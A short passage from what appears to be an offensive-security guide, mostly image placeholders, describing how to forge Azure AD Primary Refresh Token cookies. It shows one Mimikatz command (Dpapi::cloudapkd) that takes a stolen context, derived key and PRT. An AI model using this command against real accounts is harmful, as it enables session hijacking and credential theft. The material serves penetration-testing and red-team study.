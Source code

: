 <figure><img src="../../../.gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

#### Option 1 - Full Mimikatz

* Now you want to copy both the Context value:

<figure><img src="../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

* And the derived key value:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

* Finally you can use all this info to **generate PRT cookies**:

```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
